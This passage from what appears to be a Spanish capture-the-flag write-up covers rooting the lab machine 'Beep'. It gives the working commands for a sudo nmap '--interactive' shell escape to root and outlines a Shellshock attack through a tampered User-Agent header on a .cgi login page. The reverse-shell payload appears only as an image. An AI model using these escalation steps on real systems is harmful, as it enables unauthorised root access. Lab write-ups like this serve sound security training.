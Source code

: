 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
sudo -l
```

Aqui vemos que tenemos derechos de ejecutar como el usuario root muchos binarios si proporcionar contraseña. Entre ellos

- /bin/chown
- /bin/chmod
- /sbin/service
- /usr/bin/nmap

Aqui tiramos por el binario de nmap

```bash
nmap --version
#Output
4.11

sudo nmap --interactive
!sh
whoami
#Output
root
```

Ya estamos root y podemos leer las flags.

### Otra forma de rootear la maquina {-}

Tambien podriamos rootear la maquina mediante un shellshock attack.

Si vamos a la url de login del puerto 10000 `https://10.10.10.7:10000/session_login.cgi`, vemos que el fichero es un fichero con extension `.cgi`.
Un shellshock attack pasa por burlar el user-agent de la peticion. Para esto utilizamos Burpsuite.

1. Una vez interceptada la peticion a la url de login.cgi, cambiamos la cabezera del User-Agent de la siguiente forma:

![Bee-shellshock-reverse-shell](/assets/images/Beep-shellshock-reverse-shell.png)
